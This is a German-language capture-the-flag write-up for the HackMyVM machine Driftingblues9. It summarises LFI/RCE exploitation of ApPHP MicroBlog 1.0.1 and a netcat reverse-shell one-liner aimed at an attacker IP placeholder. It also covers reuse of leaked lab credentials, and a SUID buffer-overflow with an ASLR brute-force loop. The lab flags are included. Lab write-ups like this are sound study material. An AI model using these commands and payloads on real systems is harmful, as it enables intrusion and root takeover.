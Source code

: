 # Driftingblues9 - HackMyVM (Easy)

![Driftingblues9.png](Driftingblues9.png)

## Übersicht

*   **VM:** Driftingblues9
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Driftingblues9)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 18. April 2023
*   **Original-Writeup:** https://alientec1908.github.io/Driftingblues9_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser "Easy"-Challenge war es, Root-Zugriff auf der Maschine "Driftingblues9" zu erlangen. Die Enumeration deckte einen Webserver (Apache) auf, der eine ApPHP MicroBlog 1.0.1 Anwendung hostete. Ein bekannter Exploit (Exploit-DB 33070) für diese Anwendung ermöglichte Remote Code Execution (RCE) durch Local File Inclusion (LFI), was zu einer initialen Shell als `www-data` führte. Im Exploit-Output wurden Datenbank-Credentials (`clapton:yaraklitepe`) gefunden, die auch für den Systembenutzer `clapton` gültig waren. Nach dem Wechsel zu `clapton` wurde die User-Flag und eine Notiz gefunden, die auf einen Buffer Overflow in der lokalen, SUID-Root-Datei `/home/clapton/input` hinwies. Mittels `gdb` wurde der Offset zum Überschreiben des EIP ermittelt. Trotz aktiviertem ASLR wurde durch einen Brute-Force-Ansatz mit einer geratenen Rücksprungadresse und Shellcode eine Root-Shell erlangt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `python2` (für Exploit-Skript ApPHP)
*   `nc` (netcat)
*   `python` / `python3` (für PTY-Shell-Stabilisierung, Payload-Generierung, http.server)
*   `find`
*   `su`
*   `wget`
*   `gdb` (GNU Debugger)
*   Metasploit Tools (`pattern_create.rb`, `pattern_offset.rb`)
*   Standard Linux-Befehle (`ip`, `vi`, `grep`, `export`, `stty`, `ls`, `cat`, `chmod`, `id`, `cd`, `echo`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Driftingblues9" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mittels `arp-scan` (Ziel: `192.168.2.131`).
    *   `nmap`-Scan identifizierte Apache (80/tcp) mit einer ApPHP MicroBlog Anwendung und RPCBind (111/tcp).
    *   `gobuster` listete Verzeichnisse und Dateien der Webanwendung auf.

2.  **Initial Access (als `www-data` via ApPHP MicroBlog RCE):**
    *   Die ApPHP MicroBlog-Version wurde als 1.0.1 identifiziert.
    *   Ein öffentlicher Exploit für ApPHP MicroBlog 1.0.1 (Exploit-DB 33070, `apPHP.py`) wurde verwendet.
    *   Das Python2-Exploit-Skript (`python2 apPHP.py http://192.168.2.131/index.php`) bestätigte eine LFI-Schwachstelle und ermöglichte RCE. Über den Exploit wurden Datenbank-Credentials (`clapton:yaraklitepe`) aus `include/base.inc.php` extrahiert.
    *   Mittels der RCE-Fähigkeit des Exploits wurde eine Netcat-Reverse-Shell zum Angreifer gestartet (`nc -e /bin/bash [Angreifer-IP] 4444`).
    *   Erfolgreicher Shell-Zugriff als `www-data`.

3.  **Privilege Escalation (von `www-data` zu `clapton`):**
    *   Als `www-data` wurde mit `su clapton` und dem zuvor gefundenen Datenbankpasswort `yaraklitepe` (das auch das Systempasswort für `clapton` war) erfolgreich zum Benutzer `clapton` gewechselt.

4.  **Privilege Escalation (von `clapton` zu `root` via Buffer Overflow):**
    *   Im Home-Verzeichnis von `clapton` wurde die User-Flag und die Datei `note.txt` gefunden. `note.txt` enthielt einen Hinweis auf einen 32-Bit Buffer Overflow in der lokalen Datei `/home/clapton/input`.
    *   Eine SUID-Suche bestätigte, dass `/home/clapton/input` SUID Root war.
    *   Die Datei `input` wurde auf die Angreifer-Maschine heruntergeladen und mit `gdb` analysiert. Eine `strcpy`-Schwachstelle wurde identifiziert.
    *   Mittels `pattern_create.rb` und `pattern_offset.rb` wurde der Offset zum Überschreiben des EIP zu 171 Bytes bestimmt.
    *   ASLR war auf dem Zielsystem aktiv (`randomize_va_space = 2`).
    *   Ein Exploit-Payload wurde konstruiert: 171 'A's, eine geratene Rücksprungadresse (`\xb0\x76\x8e\xbf`), ein NOP-Sled und x86-Shellcode.
    *   Der Exploit wurde in einer Schleife ausgeführt (`for i in {1..10000}; do (./input $(python -c 'print(...)')); done`), um ASLR durch Brute-Force zu umgehen.
    *   Nach mehreren Versuchen war der Exploit erfolgreich und lieferte eine Shell mit Root-Rechten (`euid=0(root)`). Die Root-Flag wurde gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Bekannte Webanwendungs-Schwachstelle (LFI/RCE):** Ausnutzung eines öffentlichen Exploits für ApPHP MicroBlog 1.0.1.
*   **Hartcodierte Credentials:** Datenbank-Passwörter im Klartext in `include/base.inc.php`.
*   **Passwort-Wiederverwendung:** Das Datenbankpasswort für `clapton` war identisch mit dem Systempasswort.
*   **SUID Binary Exploit (Buffer Overflow):** Eine lokale, SUID-Root-Datei (`/home/clapton/input`) war anfällig für einen klassischen Stack Buffer Overflow.
*   **ASLR Brute-Force:** Trotz aktiviertem ASLR konnte der Buffer Overflow durch wiederholte Ausführung mit einer geratenen Rücksprungadresse erfolgreich ausgenutzt werden.

## Flags

*   **User Flag (`/home/clapton/user.txt`):** `F569AA95FAFF65E7A290AB9ED031E04F`
*   **Root Flag (`/root/root.txt`):** `04D4C1BEC659F1AA15B7AE731CEEDD65`

## Tags

`HackMyVM`, `Driftingblues9`, `Easy`, `Web`, `Apache`, `ApPHP MicroBlog`, `LFI`, `RCE`, `Exploit-DB`, `Credentials Disclosure`, `Password Reuse`, `SUID Binary`, `Buffer Overflow`, `gdb`, `ASLR Brute-Force`, `Privilege Escalation`, `Linux`
